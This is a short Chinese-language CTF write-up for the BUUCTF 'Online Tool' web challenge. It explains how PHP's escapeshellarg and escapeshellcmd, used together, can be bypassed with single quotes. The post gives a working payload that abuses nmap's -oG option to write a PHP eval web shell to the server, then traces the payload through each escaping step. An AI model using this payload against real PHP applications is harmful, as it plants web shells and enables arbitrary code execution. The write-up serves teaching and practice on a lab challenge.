 ```yaml
---
layout: post
title: 2018 BUUCTF Web wp
date: 2020-11-28 20:10 +0800
last_modified_at: 2020-11-28 20:10:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 Online Tool

通过nmap写入文件指令-oG进行写马

涉及到`escapeshellarg`和`escapeshellcmd`联合使用的绕过

`escapeshellarg`函数：

对单引号转义，并将其他部分用单引号括起来

`escapeshellcmd`函数：

`escapeshellcmd()` 对字符串中可能会欺骗 `shell` 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 `exec()` 或 `system()` 函数，或者 执行操作符 之前进行转义。

反斜线`\`会在以下字符之前插入： `&#;|*?~<>^()[]{}$\` ,`\x0A` 和 `\xFF`。 `'` 和 `"` 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 `%` 和 `!` 字符都会被空格代替。

对于该题中`escapeshellarg()`和`escapeshellcmd()`联合使用的情况，我们可以采用单引号进行绕过

Payload：

```
/?host=' <?php eval($_POST[shell]);?> -oG test.php '
```

经过`escapeshellarg()`函数后该payload会变为

```
\' '<?php eval($_POST[shell]);?> -oG test.php \''
```

经过`escapeshellcmd()`函数后该payload会变为

```
\\' '\<\?php eval\(\$_POST\[shell\]\)\;\?\> -oG test.php \\''
```

即在exec命令时进行执行，将马写入test.php中

之后蚁剑连接获得flag

